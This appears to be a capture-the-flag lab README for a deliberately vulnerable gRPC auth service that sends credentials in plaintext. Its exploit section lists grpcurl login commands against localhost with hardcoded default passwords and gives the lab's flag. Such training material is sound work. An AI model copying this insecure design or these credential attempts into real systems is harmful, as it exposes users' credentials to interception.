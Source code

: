 # Lab 002: Plaintext gRPC

## Vulnerability
Auth Service sending credentials over unencrypted gRPC connections.

## Objective
Successfully login to capture the flag (credentials are visible in plaintext).

## Run the Lab
```bash
# Build and run
docker build -t grpc-002 .
docker run -p 8002:8002 grpc-002
```

## Exploit
```bash
# Install grpcurl
go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest

# Intercept plaintext login (credentials visible in network traffic)
grpcurl -plaintext -d '{"username": "admin", "password": "admin123"}' \
  localhost:8002 auth.AuthService/Login

# Try other users
grpcurl -plaintext -d '{"username": "user", "password": "password123"}' \
  localhost:8002 auth.AuthService/Login

grpcurl -plaintext -d '{"username": "developer", "password": "dev456"}' \
  localhost:8002 auth.AuthService/Login
```

## Impact
Attackers can intercept and reuse credentials and session tokens sent over plaintext.

## Flag
Successfully login to get: `GRPC_GOAT{plaintext_credentials_intercepted}`

## Mitigation
Use TLS encryption for all gRPC communications.